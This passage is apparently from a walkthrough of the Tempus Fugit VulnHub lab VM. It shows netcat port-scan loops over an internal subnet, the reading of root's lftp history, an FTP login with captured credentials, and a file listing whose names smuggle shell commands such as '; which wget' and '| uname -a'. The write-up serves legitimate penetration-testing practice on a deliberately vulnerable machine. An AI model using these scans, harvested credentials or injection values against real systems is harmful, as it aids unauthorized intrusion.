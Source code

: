 As we did in [wintermute][6] we scan the internal network;

```
# for ip in $(seq 1 254); do ping -c 1 172.19.0.$ip | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 ; done

172.19.0.1
172.19.0.10
172.19.0.12
172.19.0.100

# for p in $(seq 1 65535); do nc -nvzw1 172.19.0.12 $p 2>&1 ; done | grep open
172.19.0.12 (172.19.0.12:21) open

# for p in $(seq 1 65535); do nc -nvzw1 172.19.0.100 $p 2>&1 ; done | grep open
172.19.0.100 (172.19.0.100:53) open

# for p in $(seq 1 65535); do nc -nvzw1 172.19.0.1 $p 2>&1 ; done | grep open
172.19.0.1 (172.19.0.1:22) open
172.19.0.1 (172.19.0.1:80) open
172.19.0.1 (172.19.0.1:8080) open
```
Once we're in we discover we're `root`. Navigate to their home directory and read any history files;
![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-9.png)
```
bash-4.4# pwd
/root/.local/share/lftp
bash-4.4# cat rl_history
...
lftp 172.19.0.12
 1565501727
...
exit
```
Earlier we got some creds for a ftp server;
```
user: someuser
pass: b232a4da4c104798be4613ab76d26efda1a04606
```
There's two options for ftp servers `ncftp` and `lftp`; the latter worked. We login with the above creds. We're now in the directory with all the file uploads;
```
bash-4.4# lftp ftp://someuser@172.19.0.12
Password:
lftp someuser@172.19.0.12:~> ls
...
-rw-------    1 ftp      ftp            14 May 06 09:47 cherry.txt; which wget
-rw-------    1 ftp      ftp            52 Aug 12  2019 cmscreds.txt
-rw-------    1 ftp      ftp            36 Mar 11 07:29 hashMD5.php.txt
-rw-------    1 ftp      ftp            36 Mar 11 11:03 hashMD5.php.txt | uname -a
...
```
One file stands out __cmscreds.txt__;

[1]: https://www.vulnhub.com/entry/tempus-fugit-1,346/
[2]: https://twitter.com/@DCAU7
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
[5]: https://twitter.com/@4nqr34z
[6]: https://swaudo.github.io/articles/2019-01/wintermute-walkthrough